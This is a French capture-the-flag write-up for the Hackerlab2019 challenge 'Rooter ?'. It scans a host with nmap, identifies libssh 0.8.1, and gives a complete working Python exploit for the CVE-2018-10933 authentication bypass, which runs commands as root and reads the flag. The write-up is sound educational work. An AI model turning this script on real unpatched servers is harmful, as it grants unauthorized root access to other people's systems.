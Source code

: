# Hackerlab2019 – Rooter ?

* **Categorie:** Miscellaneous
* **Points:** 300

## Challenge

51.91.120.156<br>
30000

## Solution
Le nom de ce challenge nous a fait passer à obtenir l'accès <b>root</b> sur la machine ayant l'addresse IP <i>51.91.120.156</i>.

Lançons un scan rapide avec nmap pour obtenir plus d'informations sur les services qui tournent sur cette machine et plus précisement sur le port 30000.

```bash
lick@host:~/Bureau/HackerLab2019$ nmap -A 51.91.120.156 -p 30000
Starting Nmap 7.80 ( https://nmap.org ) at 2019-11-24 04:38 CET
Nmap scan report for 156.ip-51-91-120.eu (51.91.120.156)
Host is up (0.16s latency).

PORT      STATE SERVICE VERSION
30000/tcp open  ssh     libssh 0.8.1 (protocol 2.0)
| ssh-hostkey:
|_  2048 34:f3:32:c6:e8:50:23:6a:67:23:bd:58:a3:88:e3:a6 (RSA)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.18 seconds
```

Le résultat nous montre que sur le port 30000, il y a le service ssh qui fonctionne avec la version <b>libssh 0.8.1</b>. Cette version ssh semble être ancienne. Vérifions si elle ne présente aucune faille de sécurité.

Quelques recherches sur google, nous donne le sourit. En effet, une vulnérabilité (CVE-2018-10933) a été découverte dans libssh, c'est une bibliothèque codée en C implémentant le protocole SSH utilisé pour l’administration à distance des serveurs.

>Un défaut dans cette implémentation du protocole SSH permettait aux pirates de contourner les procédures d’authentification et d’avoir accès aux serveurs.<br>
Pour y parvenir, il suffisait qu’un attaquant émette le message <b>SSH2_MSG_USERAUTH_SUCCESS</b> au lieu de <b>SSH2_MSG_USERAUTH_REQUEST</b> que le serveur espère normalement lors du processus d’authentification d’un client.<br>
Ce message <b>SSH2_MSG_USERAUTH_SUCCESS</b> amenait le serveur ssh à penser que l’authentification avait déjà été confirmée et ce dernier offrait automatiquement l’accès à l’attaquant.<br>
Ce problème existe dans la version <b>libssh 0.6.0</b> et les versions suivantes. Seules les versions 0.7.6 et 0.8.4 ont été mises à jour jusque là.

Ainsi, avec cette information, notre objectif est d'exploiter cette vulnérabilité pour accéder de façon non-autorisé au serveur ayant l'IP <i>51.91.120.156</i>.

A l'aide de netcat, nous avons la confirmation que l'hôte <i>51.91.120.156</i> utilise une version vulnérable de libssh:
```bash
lick@host:~/Bureau/HackerLab2019$ netcat 51.91.120.156 30000
SSH-2.0-libssh_0.8.1
```

Grâce au script Python ci-dessous, nous tenterons d’exploiter la vulnérabilité CVE-2018-10933 sur l’hôte <i>51.91.120.156</i>.
```python
#!/usr/bin/env python

import sys
import socket
import paramiko

def main(hostname,port,cmd):

	try:

		s = socket.socket()
		s.connect((str(hostname),int(port)))
		msg = paramiko.message.Message()
		msg.add_byte(paramiko.common.cMSG_USERAUTH_SUCCESS)
		paramiko.util.log_to_file("filename.log")
		trans = paramiko.transport.Transport(s)
		trans.packetizer.REKEY_BYTES = pow(2, 40)
		trans.packetizer.REKEY_PACKETS = pow(2, 40)
		trans.start_client(timeout=5)
		trans._send_message(msg)
		session = trans.open_session(timeout=10)
		session.exec_command(cmd)
		out_file = session.makefile("rb",4096)
		output = out_file.read()
		print(output)
		out_file.close()
		s.close()
		return
	except Exception as e:
		print("Error")
		print(e)
		return


if __name__ == "__main__":
	try:
		hostname = sys.argv[1]
		port = sys.argv[2]
		cmd = sys.argv[3]
		main(hostname,port,cmd)
	except Exception as e:
		print("Usage: <script.py> <hostname> <port> <command>")
		exit()
```

Le script nous permet d’exécuter des codes sur l’hôte  <i>51.91.120.156</i> sans s’être authentifé sur le serveur ssh.

```bash
lick@host:~/Bureau/HackerLab2019$ python script.py 51.91.120.156 30000 id
uid=0(root) gid=0(root) groups=0(root)lick@host:~/Bureau/HackerLab2019$ python script.py 51.91.120.156 30000 id
uid=0(root) gid=0(root) groups=0(root)
```
Waou, nous avions pu accéder au serveur en étant `root` sur l’hôte  <i>51.91.120.156</i>  sans difficulté.

Essayons d'exécuter la commande <i>ls</i> afin de lister les fichiers sur le serveur que nous avons compromis.
```bash
lick@host:~/Bureau/HackerLab2019$ python script.py 51.91.120.156 30000 "ls"
bin
boot
dev
etc
flag.txt
home
lib
lib64
media
mnt
opt
proc
root
run
sbin
srv
ssh_server_fork.patch
sys
tmp
usr
var

```
Nous avons retouver un fichier nommé `flag.txt`. essayons de lire le contenu en exécutant la commande <i>cat</i>.
```bash
lick@host:~/Bureau/HackerLab2019$ python script.py 51.91.120.156 30000 "cat flag.txt"
CTF_SSH_Exploiter

```

Le flag de ce challenge est : `CTF_SSH_Exploiter`

Enjoy,<br>
\-[Kyb3R](https://twitter.com/LickosA)
